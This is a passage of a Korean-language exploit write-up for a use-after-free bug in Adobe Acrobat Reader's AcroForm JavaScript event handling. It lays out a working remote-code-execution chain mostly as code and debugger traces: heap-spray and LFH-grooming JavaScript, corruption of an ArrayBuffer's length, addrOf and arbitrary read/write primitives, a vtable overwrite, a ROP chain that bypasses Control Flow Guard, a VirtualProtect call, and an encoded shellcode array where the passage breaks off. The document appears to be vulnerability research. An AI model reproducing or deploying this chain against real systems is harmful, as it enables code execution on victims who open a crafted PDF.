따라서 `GetRichValueEventProp`에서 호출된 `IsDataInGlobalHashTable`은 `true`를 반환하게 되고 `CAggToESVal`이 호출되지 않아 버그가 발생하지 않게 됩니다.

또한 `richValue`와 동일한 방식으로 버그를 발생시킬 수 있는 `richChange`와 관련된 `SetRichChangeEventProp`함수와 `GetRichChangeEventProp`함수도 같은 방식으로 패치되었습니다.

# 4. Exploitation

---

그럼 이제 대망의 익스플로잇만이 남았습니다. 위에서 얘기한 것처럼 익스플로잇에서도 자바스크립트가 사용되고 이전까지 자바스크립트 엔진 익스플로잇 경험이 없었기에 굉장히 신선하게 느껴지기도 했습니다.


> ~~그래도 난 파이썬이 좋아~~
> 

RCE 익스플로잇을 위해 먼저 힙 그루밍을 통해 Use-After-Free가 발생하는 메모리에 공격자가 조작할 수 있는 데이터를 할당하고 이를 통해 버그가 발생할 때 메모리에 할당된 특정 `ArrayBuffer`의 length가 덮어 쓰이게 만들어 이를 OOB Read/Write에 사용합니다.

## 1. Create Corrupted ArrayBuffer

아래는 page-heap이 활성화된 상태에서 크래시가 발생하는 `CAgg::operator[]`함수입니다.

### CAgg::operator[]

```c
int __userpurge CAgg::operator[]@<eax>(int *this@<ecx>, bool *a2@<ebx>, wchar_t *someID)
{
...
  if ( *this == 0x13 )                          // this->type
  {
    v6 = *(int (__fastcall **)(int))(dword_21473CA4 + 28);
    v7 = __guard_check_icall_fptr(someID);
    v8 = (void *)v6(v7);
    v15 = (wchar_t *)sub_20867317(v8, 1);
    v9 = (int *)this[2];
    v16 = 0;
    v11 = *(_DWORD *)sub_20AA6EED((int)a2a, v10, v9, (int)&v15, (int)a2a);
    v16 = 1;
    if ( v15 )
      sub_208679A2(v15);
    result = v11 + 24;
  }
  else
  {
    if ( *this == 0x14 )
    {
      v4 = (_DWORD *)std::map<unsigned short,CAgg>::operator[](this[2], (int)v14, v12);
    }
    else
    {
      CAgg::Convert((int)this, (_DWORD *)0x14);
      v4 = (_DWORD *)std::map<unsigned short,CAgg>::operator[](this[2], (int)a2a, &someID);// this->map
    }
    result = *v4 + 24;
  }
  return result;
}
```

힙 그루밍이 성공적으로 이루어진 상태에서는 `EScript_ESObjectEnum_CallbackProc`에서 아래처럼 공격자에 의해 컨트롤되는 메모리를 사용해서 `CAgg::operator[]`함수를 호출합니다. 

```
eax=00001b36 ebx=00000000 ecx=2909d478 edx=10e60da0 esi=71eaef50 edi=2909d478
eip=63ac2a4b esp=0457ac14 ebp=0457ac28 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00200246
AcroForm!DllUnregisterServer+0x69eb:
63ac2a4b e83b410000      call    AcroForm!DllUnregisterServer+0xab2b (63ac6b8b)
0:000> dd ecx // ecx+8 == this->map
2909d478  4e4e4d4d 50504f4f *20000058* 54545353
2909d488  56565555 58585757 5a5a5959 5c5c5b5b
2909d498  5e5e5d5d 60605f5f 00006161 00000000
2909d4a8  b0fe1536 8c002000 42424141 44444343
2909d4b8  46464545 48484747 4a4a4949 4c4c4b4b
2909d4c8  4e4e4d4d 50504f4f 20000058 54545353
2909d4d8  56565555 58585757 5a5a5959 5c5c5b5b
2909d4e8  5e5e5d5d 60605f5f 00006161 00000000
```

 `std::map<unsigned short,CAgg>::operator[]`호출에 사용되는 `this->map`은 힙 스프레이를 통해 0x20000048에 할당된 아래의 `ArrayBuffer`를 가리키고 있고  0x20000048에 0x10 바이트의 헤더가 위치해있으며 0x20000058부터 데이터가 위치하고 이는 공격자에 의해 사전에 구성되었습니다.

```
0:000> dd 0x20000048
20000048  00000000 0000ffe8 17c7bbe0 00000000
20000058  20000060 41424345 41424344 20000044 // 20000058 : this->map
20000068  33333333 33333333 33333333 33333333
20000078  33333333 33333333 00000000 00000000
```

위 데이터 중 `ArrayBuffer`의 길이를 나타내는 부분은 오프셋 + 0x4인 0x2000004c로 `std::map<unsigned short,CAgg>::operator[]`에서 0x20000058에 구성된 fake `map`을 사용하여 호출되는 `lower_bound`와 `insert`에 의해 변조됩니다.

### std::map<unsigned short,CAgg>::operator[]

```c
int __thiscall std::map<unsigned short,CAgg>::operator[](TREE_VAL *this, int a2, unsigned __int16 *pSomeID)
{
	...
	int v8[3]
  ...
  std::map<unsigned short,CAgg>::lower_bound(this, v8, pSomeID);
  v4 = v9;
  if ( sub_208E95F2(v9, pSomeID) )
  {
    ...
  }
  else
  {
    if ( this->_Mysize == 0x38E38E3 )
      Throw_tree_length_error();
    ...
    *(_DWORD *)a2 = std::map<unsigned short,CAgg>::insert(this, v8[0], (int)v8[1], Parent);
    ...
  }
  return result;
}
```

먼저 호출되는 `lower_bound`에서 아래의 코드가 실행되어 두 번째 인자(`a2`)로 전달한 `v8`에 데이터를 씁니다.

### std::map<unsigned short,CAgg>::lower_bound

```c
_DWORD *__thiscall std::map<unsigned short,CAgg>::lower_bound(int this, int *a2, int *a3)
{
  int Myhead; // eax
  int Parent; // ecx
  unsigned __int16 v5; // si
  int v6; // eax
                                                // TREE_VAL *this
  Myhead = *(_DWORD *)this;                     // this->_Myhead;
  //    mov     eax,dword ptr [ecx]  ds:002b:20000058=20000060
  Parent = *(_DWORD *)(*(_DWORD *)this + 4);    // this->_Myhead->_Parent
  //    mov     ecx,dword ptr [eax+4] ds:002b:20000064=20000044
  a2[1] = 0;
  *a2 = Parent;
  a2[2] = Myhead;
  ...
  return a2;                                    
}
```

`Myhead`에는 `this`(0x20000058)에서 데이터를 읽어 0x20000060이 저장되고 `Myhead->_Parent`(0x20000064)에 저장된 0x20000044가 `Parent`에 저장됩니다. `lower_bound`의 호출 결과 두 번째 인자로 전달한 `v8`의 0, 1, 2 인덱스에 각각 `Parent`(0x20000044), 0, `Myhead`(0x20000060) 값이 쓰입니다.

### std::map<unsigned short,CAgg>::insert

```c
int __thiscall std::map<unsigned short,CAgg>::insert(int *this, int *a2, int *a3, int *a4)
{
  int *Myhead; // ebx
  int *v5; // esi
  int *v6; // edi
  int v8; // eax
  int *v9; // edx
  int v10; // ecx

  ++this[1];                                    // ++this->_Mysize;
  Myhead = (int *)*this;                        // this->_Myhead
  v5 = a4;
  a4[1] = (int)a2;                              // a4->_Parent = a2
  if ( a2 != Myhead )
  {
    if ( a3 )// a3 == 0
    {
      ...
    }
    else
    {
	    a2[2] = (int)a4;
      if ( a2 == (int *)Myhead[2] )
        Myhead[2] = (int)a4;
    }
    ...
  }
  ...
}
```

두 번째 인자(`a2`)는 `lower_bound`에서 `v8[0]`에 쓰인 `Parent`(0x20000044)입니다.세 번째 인자(`a3`)은  `lower_bound`에서 쓰인 0이기 때문에 `else`로 분기합니다. 여기서 `a2[2] = (int)a4;`가 실행되면서 `Parent + 8`(0x2000004c)에 어떤 메모리의 주소가 쓰이게 됩니다.

```
eax=20000044 ebx=20000060 ecx=20000058 edx=291a1bf8 esi=291a1bf8 edi=20000058
eip=6385bccf esp=0457ab88 ebp=0457ab94 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00200246
AcroForm!hb_set_invert+0x3d1f:
6385bccf 897008          mov     dword ptr [eax+8],esi ds:002b:2000004c=0000ffe8
```

`Parent + 8`은 `ArrayBuffer`의 length가 위치한 주소를 가리키고 있고 메모리 주소는 일반적으로 원래의 크기인 0xffe8보다 훨씬 큽니다. 따라서 해당 `ArrayBuffer`를 통해 OOB Read/Write가 가능하게 됩니다.

### Javascript code

아래는 위 과정을 수행하여 OOB Read/Write에 사용하는 `ArrayBuffer`를 생성하는 Javascript 코드입니다.

```jsx
/*
....
*/
const ALLOC_SIZE = 0x10000 - 24;
const ARR_BUF_BASE = 0x20000048;
const ARR_BUF_MALLOC_BASE = 0x20000040;

const arrBufPtr = ARR_BUF_BASE + 0x10;

const FAKE_STR_START = 0x40;
const FAKE_STR = arrBufPtr + 0x100;
const FAKE_DV_START = 0x60;
const FAKE_DV = arrBufPtr + 0x180;
/*
....
*/
function groomLFH(size, count) {
    var code =
        "%u4141%u4242%u4343%u4444%u4545%u4646%u4747%u4848%u4949%u4a4a%u4b4b%u4c4c%u4d4d%u4e4e%u4f4f%u5050%u0058%u2000%u5353%u5454%u5555%u5656%u5757%u5858%u5959%u5a5a%u5b5b%u5c5c%u5d5d%u5e5e%u5f5f%u6060%u6161%u6262%u6363%u6464%u6565%u6666%u6767%u6868%u6969%u6a6a%u6b6b%u6c6c%u6d6d%u6e6e%u6f6f%u7070%u7171%u7272%u7373%u7474%u7575%u7676%u7777%u7878%u7979%u7a7a%u7b7b%u7c7c%u7d7d%u7e7e%u7f7f%u8080%u8181%u8282%u8383%u8484";
    var string = unescape(code);

    for (var i = 0; i < count; i++) {
        chunks.push(string.substr(0, (size - 2) / 2).toUpperCase());
    }

    for (var i = 0; i < chunks.length; i += 2) {
        chunks[i] = null;
        delete chunks[i];
    }
}

function sprayArrBuffers() {
    for (var i = 0; i < 0x1500; i++) {
        bufs[i] = new ArrayBuffer(ALLOC_SIZE);
        const uintArr = new Uint32Array(bufs[i]);
        for (var k = 0; k < 16; k++) {
            uintArr[k] = 0x33333333;
        }
        uintArr[0] = arrBufPtr + 8; //first deref a = *ecx
        uintArr[1] = 0x41424344; //map size
        uintArr[2] = 0x41424344;
        uintArr[3] = ARR_BUF_BASE - 4;

        // fake string for arbitrary read
        uintArr[FAKE_STR_START] = 0x102; //type
        uintArr[FAKE_STR_START + 1] = arrBufPtr + 0x40; // buffer
        uintArr[FAKE_STR_START + 2] = 0x4;
        uintArr[FAKE_STR_START + 3] = 0x4;

        // fake dataview for arbitrary write
        uintArr[FAKE_DV_START] = 0x77777777;
        delete uintArr;
        uintArr = null;
    }

    for (var i = 0; i < 0x10; i++) {
        arrs[i] = new Array(1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 17, 18, 19, 20, 21, 22, 23, 24, 25, 20, 21, 22, 23, 24, 25, 20, 21, 22, 23, 24, 25, 20, 21, 22, 23, 24, 25, 20, 21, 22, 23, 24, 25, 20, 21, 22, 23);
        arrs[i][0] = 0x47484950;
        arrs[i][1] = targetStr;
        arrs[i][2] = targetDV;
        for (var k = 3; k < 5000; k++) {
            arrs[i][k] = 0x50515051;
        }
    }
}

console.println("[*] spraying array buffer...");

sprayArrBuffers();

console.println("[*] pre-populating LFH...");

groomLFH(68, 5000);

/*
Trigger the Bug
*/
```

`sprayArrBuffers`함수에서는 0xffe8 크기를 가지는 `ArrayBuffer`를 스프레이하는 것으로 0x20000048에 `ArrayBuffer`가 할당되게 만듭니다. 또한 `ArrayBuffer`에서 OOB Read/Write로 접근할 `Array`를 스프레이하여 인접한 주소에 할당하고 이는 추후에 임의 주소 읽기/쓰기에 사용됩니다.

스프레이되는 `ArrayBuffer`에는 `std::map<unsigned short,CAgg>::lower_bound`와  `std::map<unsigned short,CAgg>::insert`의 동작에 의해 length가 덮어 쓰이도록 페이로드를 구성합니다. 이후 `groomLFH` 함수에서 `String` 데이터 할당을 통해 힙 그루밍을 수행합니다. 이 문자열 데이터에는 `%u0058%u2000`이 포함되어 있고 `unescape`로 인해 fake `map`의 주소인 0x20000058로 변경됩니다. 

버그가 트리거된 이후 `groomLFH`에서 스프레이된 문자열이 변환된 `CAgg`오브젝트들은 다시 변환을 거치게 되는데 이때 문자열 데이터를 옮길 메모리를 할당합니다. brute-force로 알아낸 크기인 68로 힙 그루밍을 진행하면 이 과정에서 Use-After-Free가 발생하는 메모리를 재할당하여 fake `map`의 주소를 위치시킬 수 있습니다.

## 2. Out-of-Bounds Read/Write via Corrupted ArrayBuffer

length가 변조된 `ArrayBuffer`를 사용한 OOB Read/Write로 다른 오브젝트를 변조하여 추후에 Arbitrary Address Read/Write에 사용합니다. 이를 위해 아래의 코드를 통해 변조된 길이를 가지는 `ArrayBuffer`를 찾습니다.

```jsx
var arrStart = 0;
var corruptedTypedArr = null;

var originalTargetStrAddr = 0,
    originalTargetDVAddr = 0;

for (var i = 0; i < bufs.length; i++) {
    if (bufs[i].byteLength != ALLOC_SIZE) {
        console.println(
            "[+] corrupted array buffer found at " +
                i +
                " : length: " +
                bufs[i].byteLength +
                " : buf length: " +
                bufs.length
        );
        const uintArr = new Uint32Array(bufs[i]);

        console.println("[*] checking leaked global array...");

        for (var x = ((bufs.length - i) * 0xfff8) / 4; x < uintArr.length; x++) {
            if (uintArr[x] == 0x47484950) {
                arrStart = x - 4;
                console.println("[*] leaked global array found at index:" + arrStart);
                break;
            }
        }

        // store for recovery
        originalTargetStrAddr = uintArr[arrStart + 6];
        originalTargetDVAddr = uintArr[arrStart + 8];

        // corrupt for further primitives
        uintArr[arrStart + 4] = 0x47484951;
        uintArr[arrStart + 6] = FAKE_STR;
        uintArr[arrStart + 8] = FAKE_DV;

        corruptedTypedArr = uintArr;

        break;
    }
}
```

스프레이된 `ArrayBuffer`들의 length를 검사하여 할당에 사용한 크기인 `ALLOC_SIZE`(0xffe8)와 같은지 비교하는 것으로 OOB Read/Write가 발생하는 `corruptedTypedArr`를 찾아낼 수 있습니다.

이를 통해 `sprayArrBuffers` 함수에서 스프레이된 인접한 `Array`들에 접근할 수 있고 스프레이된 `Array`에는 아래와 데이터가 저장되어 있습니다

```
24188270  00000000 00000f80 00000f80 00000f80  ................
24188280  47484950 ffffff81 0db3c420 ffffff85  PIHG.... .......
24188290  0dda27c0 ffffff87 50515051 ffffff81  .'......QPQP....
241882a0  50515051 ffffff81 50515051 ffffff81  QPQP....QPQP....
241882b0  50515051 ffffff81 50515051 ffffff81  QPQP....QPQP....
241882c0  50515051 ffffff81 50515051 ffffff81  QPQP....QPQP....
241882d0  50515051 ffffff81 50515051 ffffff81  QPQP....QPQP....
241882e0  50515051 ffffff81 50515051 ffffff81  QPQP....QPQP....

```

`Array`에는 데이터 값만 저장되는 `ArrayBuffer`와 달리 각 4바이트의 데이터 값과 타입을 나타내는 태그 값으로 이루어진 jsval이 저장됩니다.

아래는  Adobe Acrobat Reader에서 사용하는 Javascript 엔진인 SpiderMonkey에서 jsval을 표현하는 방식을 나타낸 그림입니다.


> 그림.1: [출처](https://downloads.immunityinc.com/infiltrate-archives/the_shadow_over_firefox_infiltrate_2015.pdf) Slide 10
> 

이를 참고하여 `Array`에 저장된 데이터를 분석하면 `0db3c420 ffffff85`는 문자열인 `targetStr`이고 `0dda27c0 ffffff87`는 DataView인 `targetDV`인 것을 알 수 있습니다.

### Corrupt Sparyed Array

먼저 변조된 `ArrayBuffer`를 통해 인접한 `Array`를 찾기 위해 OOB Read를 활용합니다.

OOB Read로 읽은 데이터를 `Array[0]`에 위치한 0x47484950과 비교하는 것을 통해 스프레이된 `Array`임을 식별할 수 있고 OOB Read에 사용된 인덱스에서 4를 빼서 `Array` 오브젝트가 위치한 주소에 접근하기 위한 인덱스 `arrStart`에 저장합니다.

이후 아래의 코드를 통해 `Array`에 접근하여 `targetStr`과 `targetDV`를 가리키는 부분을 각각 `FAKE_STR`과 `FAKE_DV`로 변조합니다.

```jsx
        originalTargetStrAddr = uintArr[arrStart + 6];// corrupted ArrayBuffer
        originalTargetDVAddr = uintArr[arrStart + 8];

        // corrupt for further primitives
        uintArr[arrStart + 4] = 0x47484951;
        uintArr[arrStart + 6] = FAKE_STR; // 0x20000058 + 0x100
        uintArr[arrStart + 8] = FAKE_DV; //0x20000058 + 0x180

        corruptedTypedArr = uintArr;
        
        
```

`FAKE_STR`과 `FAKE_DV`는 변조된 `ArrayBuffer`의 데이터 시작 주소인 0x20000058로부터 각각 0x100, 0x180 만큼 떨어진 위치에 구성합니다.

## 3. AddrOf & poi Primitives

### AddrOf Primitive

임의의 Javascript 오브젝트의 주소를 유출하기 위한 addrof를 변조된 `ArrayBuffer`(`corruptedTypedArr`)와 `Array`(`modifiedArr`)를 통해 구현할 수 있습니다. 

```jsx
var modifiedArr = null;

for (var i = 0; i < arrs.length; i++) {
    if (arrs[i][0] == 0x47484951) {
        modifiedArr = arrs[i];
        break;
    }
}

function addrOf(obj) {
    modifiedArr[0] = obj;
    addr = corruptedTypedArr[arrStart + 4];
    return addr;
}
```

위 코드에서는 스프레이된 `Array`들을 순회하며 `Array[0]`이 원본인  0x47484950이 아니라 변조된 0x47484951인 `Array`를 찾아내고 이를 `modifiedArr`에 대입합니다. `corruptedTypedArr[arrStart + 4]`로 데이터를 읽으면 `modifiedArr[0]`에 저장된 jsval의 데이터가 읽히게 됩니다.

`addrOf` 함수에서는 이를 이용하여 `modifiedArr[0]`에 주소를 유출할 오브젝트를 대입하고 `corruptedTypedArr[arrStart + 4]`로 여기에 쓰인 오브젝트의 주소를 읽어 반환합니다.

### poi Primitive

`modifiedArr[1]`은 원본 String 오브젝트가 아닌 `corruptedTypedArr`에 구성된 Fake String을 가리키고 있습니다. 이를 이용하면 임의의 주소에서 데이터를 문자열로 읽어오는 것이 가능합니다

```jsx
const FAKE_STR_START = 0x40;

function s2h(s) {
    var n1 = s.charCodeAt(0);
    var n2 = s.charCodeAt(1);
    return ((n2 << 16) | n1) >>> 0;
}

function poi(addr) {
    // leak values at addr by setting it to string ptr
    corruptedTypedArr[FAKE_STR_START + 1] = addr;
    val = s2h(modifiedArr[1]);
    return val;
}
```

`poi`함수에서는 `corruptedTypedArr`에 구성된 Fake String의 문자열 데이터를 가리키는 포인터를 데이터를 읽을 주소로 바꿉니다. 이후 `modifiedArr[1]`에 접근하면 Fake String이 반환되고 변조된 주소에 위치한 문자열을 `s2h`함수를 통해 숫자로 변환합니다.

## 4. Arbitrary Address Read/Write Primitive

위에서 구현된 `addrOf`, `poi`로 Fake `DataView`를 구성하고 이를 통해 임의 주소 읽기/쓰기를 위한 `AAR`, `AAW` 함수를 구현할 수 있습니다.

```jsx
var targetDV = new DataView(new ArrayBuffer(0x64));
targetDV.setUint32(0, 0x55555555, true);
const FAKE_DV_START = 0x60;
//....

var targetDVPtr = addrOf(targetDV);
console.println("[+] target dataview address: " + targetDVPtr.toString(16));

for (var k = 0; k < 32; k++) {
    corruptedTypedArr[FAKE_DV_START + k] = poi(targetDVPtr + k * 4);
}

function AAR(addr) {
    corruptedTypedArr[FAKE_DV_START + 20] = addr;
    return modifiedArr[2].getUint32(0, true);
}

function AAW(addr, value) {
    corruptedTypedArr[FAKE_DV_START + 20] = addr;
    modifiedArr[2].setUint32(0, value, true);
}
```

Fake `DataView`를 구성하기 위해 먼저 `addrOf`로 원본 `DataView`인 `targetDV`의 주소(`targetDVptr`)을 알아냅니다. 이후 원본의 데이터를 `poi`로 읽어 `corruptedTypedArr[FAKE_DV_START]`에 복제하여 Fake `DataView`를 사용할 때 의도치 않은 동작이 발생하지 않게 합니다.

`AAR`, `AAW` 함수에서는 `corruptedTypedArr[FAKE_DV_START + 20]`에 위치한 `DataView`의 `ArrayBuffer` 포인터를 읽거나 쓸 주소로 변조합니다. 최종적으로 `modifiedArr[2]`로 Fake `DataView`에 접근하여 `setUint32`나 `getUint32` 메소드를 호출하면 임의의 주소에서 4바이트의 데이터를 읽거나 쓰는 것이 가능해집니다.

## 5. Insert ROP Payload

`addrOf`, `AAR`, `AAW` 함수를 사용하여 베이스 주소 등 필요한 데이터를 유출하고 ROP 페이로드를 작성하고 vtable을 변조하여 삽입한 페이로드가 실행되도록 만듭니다.

### Leak AcroForm Base Address

먼저 ROP 가젯들의 주소를 계산하기 위해 `AAR`함수로 `textField`인 `f0`로부터 `AcroForm.API`의 베이스 주소를 유출합니다. 이후 변조할 `field`의 vtable의 주소를 알아내고 Fake `DataView`를 구성할 때와 마찬가지로 vtable의 데이터를 읽어 `corruptedTypedArr`이 위치한 0x20000158(`arrBufPtr + 0x100`)에 복제합니다.

```jsx
const arrBufPtr = 0x20000048 + 0x10;
var AcroFormApiBase =
    AAR(AAR(addrOf(f0) + 0x10) + 0x34) - VersionData[curAppVersion]["AcroFormOffset"];
console.println("[+] AcroForm base leaked: " + AcroFormApiBase.toString(16));

var fieldVtblAddr = AAR(AAR(AAR(AAR(addrOf(f0) + 0x10) + 0x10) + 0xc) + 4);
var fieldVtbl = AAR(fieldVtblAddr);

console.println(
    "[+] field vTable Addr: " +
        fieldVtblAddr.toString(16) +
        " | fieldVtable: " +
        fieldVtbl.toString(16)
);
````
console.println("[*] clone field vtable for overwriting defaultValue pointer");

for (var i = 0; i < 32; i++) AAW(arrBufPtr + 0x100 + i * 4, AAR(fieldVtbl + i * 4));

var originalDefaulValFunc = AAR(arrBufPtr + 0x100 + 0x48);
```

### Building ROP Chain : CFG Bypass

```jsx
ROP = VersionData[curAppVersion]["ROP"];
AAW(arrBufPtr + 0x100 + 0x48, AcroFormApiBase + ROP[0]); // ROP_s = AcroForm!sub_20EFAA60 ;
AAW(arrBufPtr + 0x100 + 0x30, AcroFormApiBase + ROP[1]); // xchg eax, esp ; ret ;
AAW(arrBufPtr + 0x100, AcroFormApiBase + ROP[2]); // pop esp ; ret ;
AAW(arrBufPtr + 0x100 + 4, arrBufPtr + 0x300); // pivot to our _stack
AAW(fieldVtblAddr, arrBufPtr + 0x100); // overwrite field vtable to our ROP start

console.println("[*] storing recovery context!");
AAW(arrBufPtr + 0x300 + 0x60, fieldVtblAddr); // original vtable ptr (goes back in ecx)
AAW(arrBufPtr + 0x300 + 0x64, fieldVtbl); // vtable funcs ptr
AAW(arrBufPtr + 0x300 + 0x68, originalDefaulValFunc); // original defaultVal impl to jump to
AAW(arrBufPtr + 0x300 + 0x6c, AAR(ARR_BUF_BASE + 8)); // corrupted arrbuf typed array ptr
AAW(arrBufPtr + 0x300 + 0x70, AAR(ARR_BUF_MALLOC_BASE)); // malloc header 0
AAW(arrBufPtr + 0x300 + 0x74, AAR(ARR_BUF_MALLOC_BASE + 4)); // malloc header 1

var rop = [
    AAR(AcroFormApiBase + VersionData[curAppVersion]["VirtualProtect"]), // VirtualProtect
    arrBufPtr + 0x400, // return address
    arrBufPtr + 0x400, // buffer
    0x1000, // sz
    0x40, // new protect
    arrBufPtr + 0x540 // old protect
];

for (var i = 0; i < rop.length; i++) AAW(arrBufPtr + 0x300 + 4 * i, rop[i]);
```

이후 복제된 vtable에 ROP 가젯 주소를 삽입하고 `textField`인 `f0`의 vtable 주소를 Fake vtable로 조작합니다. 이후 `f0.defaultValue`에 접근하면 `vtable + 0x48`에 위치한 `defaultValue` 함수가 호출되는데 Fake vtable에서는 아래의 `sub_20EFAA60`에 해당합니다.

```nasm
.text:20EFAA60 sub_20EFAA60    proc near               
.text:20EFAA60                                         
.text:20EFAA60                 mov     eax, [ecx]
.text:20EFAA62                 push    0Dh
.text:20EFAA64                 call    dword ptr [eax+30h]
.text:20EFAA67                 retn
.text:20EFAA67 sub_20EFAA60    endp
```

Adobe Acrobat Reader DC는 CFG(Control Flow Guard)가 활성화되어 있어 vtable을 통한 가상 함수 호출이나 함수 포인터를 통한 호출 등의 간접 호출이 발생할 때 `__guard_check_icall_fptr`이 가리키는 `ntdll!LdrpValidateUserCallTarget`이 호출되어 유효한 간접 호출인지 검사하고 그렇지 않을 경우 프로세스가 강제 종료됩니다. 따라서 vtable에 직접 ROP 가젯을 삽입하면 호출에 실패하게 됩니다.

하지만 `sub_20EFAA60`는 아래의 `AXTEFontAccess::`vftable'`에서 확인할 수 있는 것처럼 간접적으로 호출되는 함수이고 유효한 함수들의 RVA 주소가 저장된 `__guard_fids_table`에도 존재합니다. 

```nasm
.rdata:211315C0 ; const AXTEFontAccess::`vftable'
.rdata:211315C0 ??_7AXTEFontAccess@@6B@ dd offset sub_20DFFBE0
.rdata:211315C0                                         ; DATA XREF: sub_20DFF7B6+21↑o
.rdata:211315C0                                         ; sub_20DFFAAA+6↑o
                                       ....
.rdata:21131674                 dd offset sub_20EFAA60
                                       ....
```

따라서 아래와 같이 `ntdll!LdrpValidateUserCallTarget`의 검사를 통과하고 호출될 수 있습니다

```
eax=20000158 ebx=00000001 ecx=63eeaa60 edx=0be950e0 esi=63eeaa60 edi=63a89990
eip=63a89a3b esp=0457c170 ebp=0457c19c iopl=0         nv up ei pl nz na po nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00200202
AcroForm!hb_ot_tags_to_script_and_language+0x68f9b:
63a89a3b ff153ca9fc63    call    dword ptr [AcroForm!DllUnregisterServer+0x50e8dc (63fca93c)] ds:002b:63fca93c={ntdll!LdrpValidateUserCallTarget (777c88e0)}
0:000> p
eax=0c7dd54c ebx=00000001 ecx=63eeaa60 edx=00005000 esi=63eeaa60 edi=63a89990
eip=63a89a41 esp=0457c170 ebp=0457c19c iopl=0         nv up ei pl zr na pe cy
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00200247
AcroForm!hb_ot_tags_to_script_and_language+0x68fa1:
63a89a41 8b4dec          mov     ecx,dword ptr [ebp-14h] ss:002b:0457c188=10c7d038
0:000> p
eax=0c7dd54c ebx=00000001 ecx=10c7d038 edx=00005000 esi=63eeaa60 edi=63a89990
eip=63a89a44 esp=0457c170 ebp=0457c19c iopl=0         nv up ei pl zr na pe cy
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00200247
AcroForm!hb_ot_tags_to_script_and_language+0x68fa4:
63a89a44 ffd6            call    esi {AcroForm!DllUnregisterServer+0x42ea00 (63eeaa60)}
```

이후 호출된 `sub_20EFAA60`에서 `mov eax, [ecx]`가 실행되면서 ecx(`this`)가 가리키는 Fake vtable의 주소(0x20000158)가 eax에 저장됩니다. 이후 `call dword ptr [eax + 30h]`에 의해 Fake vtable + 0x30에 저장된 stack pivot 가젯이 호출됩니다. `sub_20EFAA60`에서 발생하는 간접 호출에서는 CFG 검사가 이루어지지 않기 때문에 ROP 가젯을 호출하는 것이 가능하고 이를 통해 CFG를 우회합니다.

```
eax=0c7dd54c ebx=00000001 ecx=10c7d038 edx=00005000 esi=63eeaa60 edi=63a89990
eip=63eeaa60 esp=0457c16c ebp=0457c19c iopl=0         nv up ei pl zr na pe cy
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00200247
AcroForm!DllUnregisterServer+0x42ea00:
63eeaa60 8b01            mov     eax,dword ptr [ecx]  ds:002b:10c7d038=20000158
0:000> t
eax=20000158 ebx=00000001 ecx=10c7d038 edx=00005000 esi=63eeaa60 edi=63a89990
eip=63eeaa62 esp=0457c16c ebp=0457c19c iopl=0         nv up ei pl zr na pe cy
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00200247
AcroForm!DllUnregisterServer+0x42ea02:
63eeaa62 6a0d            push    0Dh
0:000> t
eax=20000158 ebx=00000001 ecx=10c7d038 edx=00005000 esi=63eeaa60 edi=63a89990
eip=63eeaa64 esp=0457c168 ebp=0457c19c iopl=0         nv up ei pl zr na pe cy
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00200247
AcroForm!DllUnregisterServer+0x42ea04:
63eeaa64 ff5030          call    dword ptr [eax+30h]  ds:002b:20000188=63a46984
0:000> u 63a46984
AcroForm!hb_ot_tags_to_script_and_language+0x25ee4:
63a46984 8be0            mov     esp,eax
63a46986 ffc9            dec     ecx
63a46988 c3              ret
```

가젯이 실행되면 eax(`arrBufPtr + 0x100`)값을 esp에 쓰면서 stack pivot이 이루어지고 `ret`하게 되는데 이때의 esp인 0x20000158에는 아래의 또 다른 stack pivot 가젯의 주소가 저장되어 있어 해당 주소가 실행됩니다.

```
eax=20000158 ebx=00000001 ecx=10c7d037 edx=00005000 esi=63eeaa60 edi=63a89990
eip=6380e646 esp=2000015c ebp=0457c19c iopl=0         nv up ei pl nz na po cy
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00200203
AcroForm+0x1e646:
6380e646 5c              pop     esp
0:000> t
eax=20000158 ebx=00000001 ecx=10c7d037 edx=00005000 esi=63eeaa60 edi=63a89990
eip=6380e647 esp=20000358 ebp=0457c19c iopl=0         nv up ei pl nz na po cy
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00200203
AcroForm+0x1e647:
6380e647 c3              ret
0:000> dd esp
20000358  757d0760 20000458 20000458 00001000
20000368  00000040 20000598 00000000 00000000
```

최종적으로 esp는 0x20000358로 바뀌게 되고 한번 더 `ret`하면서 `KERNEL32!VirtualProtectStub` 함수의 주소로 eip가 변경되고 pivot된 스택에 구성된 인자들에 의해 `VirtualProtect(0x20000458, 0x1000, PAGE_EXECUTE_READWRITE, 0x20000598)`를 호출하는 것과 같은 효과가 발생합니다.

## 6. Insert Shellcode

삽입된 ROP 페이로드에 의해 호출된 `VirtualProtect`는 실행 권한이 부여된 0x20000458로 리턴하고 이 주소에는 아래의 코드에 의해 shellcode가 삽입되어 있습니다.

```jsx
var shellcode = [
    // recovery prefix       (store reg context)
    // 0x909090CC,
    0x89e083e8, 0x18535256, 0x57505590,

    // shellcode
    835867240, 1667329123, 1415139921, 1686860336, 2339769483, 1980542347, 814448152, 2338274443,
    1545566347, 1948196865, 4270543903, 605009708, 390218413, 2168194903, 1768834421, 4035671071,
    469892611, 1018101719, 2425393296,

    // recovery suffix
    // 0x909090CC,
    /*restore regs*/ 0x58585d58, /*restore vtable*/ 0x8b48608b, 0x50648911, /*pop regs*/ 0x5f5e5a5b,
    /*restore ebp,esp: 0x89ea83ea, 0x3089d490, */ 0x89ec83ec, 0x30909090, /* esi = fn*/ 0x8b706890,
    /*arrbuf restore*/ 0x53bb4000, 0x00208b50, 0x6cc7430c, 0xe8ff0000, 0xc74220e8, 0xff000090,
    0x8953108b, 0x50708913, 0x8b507489, 0x530431d2, 0x5b909090, /*jmp esi*/ 0xffe69090
    /*jmp defaultVal 0xff606890*/
];

